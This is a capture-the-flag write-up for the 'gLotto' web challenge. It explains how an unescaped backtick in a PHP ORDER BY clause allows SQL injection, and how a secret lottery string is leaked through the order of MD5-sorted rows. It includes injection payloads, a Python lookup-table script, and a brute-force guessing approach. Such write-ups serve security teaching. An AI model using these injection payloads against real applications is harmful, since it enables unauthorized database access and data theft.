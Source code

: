 ```yaml
---
name: gLotto
category: web
points: 288
solves: 22
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.github.io/ctf/)
{% endignore %}

> Are you lucky?


## Time
1.5 hour  


# Behavior
There are four tables on the webpage, and they have 8, 9, 7, 4 entries respectively.

![page]({_files/glotto.png})

Their contents are fixed,
but we can control their order:

```php
$order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
$db->query("SELECT * FROM {$tables[$i]} " . ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
```

Our goal is to recover a random string with format `[0-9A-Z]{12}`,
and it is stored in a variable `@lotto`:
```php
$db->query("SET @lotto = '$winner'");
```

The random string will be reset before each query, or after each guess.
That is, we have to use exactly one query to reveal the secret.


# Solution
## TL;DR
1. Concatenate part of the secret to winner, and order by its MD5 hash.
2. Pre-compute a mapping from permutation to secret offline.
3. Use SQL injection to order the result by our comparing function
4. Map the permutation back to a possible secret
5. Keep trying until the flag pops up.


## Control the order
This part is done by my teammates.

The code use `$db->escape_string` to sanitize our input.
It seems to be `mysqli::real_escape_string` and it won't escape the backtick.

We can verify it using:

```
date`and sleep(10)--
```

Furthermore, we can put a function name inside the backtick and call it too:

```
sleep`(10)
```

Now, to control the order, we can use:

```
length`(winner),md5(winner)
```

Because the length of winner are all the same, the result is ordered by its MD5 hash.


## Leak by permutation
First, lets see how many information we can get from the permutations.
The number of possible secret is $$36^{12}$$,
and the possible outcome is $$8! \times 9! \times 7! \times 4!$$.

$$
36^{12} / (8! \times 9! \times 7! \times 4!) = 2677
$$

It's not enough, we still need to guess some of them.
To minimize the number of guesses, we have to leak as much as possible.

Let see how many chars can be leaked by each table:

$$
\begin{aligned}
\log_{36} (8!) &= 2.96\\
\log_{36} (9!) &= 3.57\\
\log_{36} (7!) &= 2.38\\
\log_{36} (4!) &= 0.88\\
\end{aligned}
$$

After ceiling, we'll use 11 chars in the secret.

To convert the permutation back to the secret,
we need to find a mapping between them.
However, the order is sent as GET parameters, and it has a maximum length about 15k.
We can't use a function that is too complicated.

Here, I simply concatenate a substring of secret to the data and calculate its MD5 for ordering.
MD5 is a cryptographic hash function (more correctly, used to be).
The result would be almost random.

The expected number of unique permutations can be modeled as sampling with replacement:

$$
U(n, k) = n \times \left (1 - \left (1 - \frac{1}{n} \right )^k \right )
$$

where $$n$$ is the number of permutation, and $$k$$ is the number of possible secret.

So here's the expected ratio of unique permutations we can found:

$$
\begin{aligned}
U(8!, 36^{3}) / 8! &= 0.69\\
U(9!, 36^{4}) / 9! &= 0.99\\
U(7!, 36^{3}) / 7! &= 1.00\\
U(4!, 36^{1}) / 4! &= 0.78\\
\end{aligned}
$$

The ratio of $$8!$$ doesn't looks good.
Recall that we only use 11 chars in the 12 chars secret.
Lets give the last char to that table:

$$
\begin{aligned}
U(8!, 36^{4}) / 8! &= 1.00\\
U(9!, 36^{4}) / 9! &= 0.99\\
U(7!, 36^{3}) / 7! &= 1.00\\
U(4!, 36^{1}) / 4! &= 0.78\\
\end{aligned}
$$

It looks great now.


## Mapping from permutation to secret

To build a mapping, we can iterate through the possible substring and pre-compute a lookup table in advance.

First, define our argsort comparing function:

```python
def cmpfunc(table, key):
    def cmp(i):
        s = table[i] + key
        s = hashlib.md5(s.encode()).hexdigest()
        return s
    return cmp
```

Then we build a mapping from the argsort results to secrets.
The results will have collision,
just take the last one since we can only guess one time.

```python
size = [4, 4, 3, 1]

charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

tables = [
    ['D5VBHEDB9YGF', ... , '00HE2T21U15H'],
    ['7AET1KPGKUG4', ... , 'L4CY1JMRBEAW'],
    ['OWGVFW0XPLHE', ... , 'OMZRJWA7WWBC'],
    ['WXRJP8D4KKJQ', ... , 'YELDF36F4TW7']
]

permutations = [{}, {}, {}, {}]
for permu, table, sz in zip(permutations, tables, size):
    for key in itertools.product(charset, repeat=sz):
        key = ''.join(key)
        res = sorted(range(len(table)), key=cmpfunc(table, key))
        res = tuple(res)
        permu[res] = key
    print('Found: ', len(permu), ', Expected: ', math.factorial(len(table)))
```

The output looks great:

```
Found: 40320, Expected: 40320
Found: 359317, Expected: 362880
Found: 5040, Expected: 5040
Found: 20, Expected: 24
```

Here's the same function in SQL for ordering:

```
length`(winner),md5(concat(winner,substr(@lotto,$START,$SIZE))),`winner
```

Also, there's a small sleep on server side if your guess is wrong:

```php
if ($_POST['code'] === $win) {
    die("You won! $flag");
} else {
    sleep(5);
    die("You didn't win :(<br>The winning ticket was $win");
}
```

But you don't need to wait for it. Set a timeout to run faster.
I set a random timeout between 1.7 to 2.3 seconds to interleave the requests.

Now, Keep trying to guess the secret from the permutation until the flag pop up.
You can find my final script [here]([_files/code.py]).

I run the script with 16 threads and the flag pops up after 10 minutes.
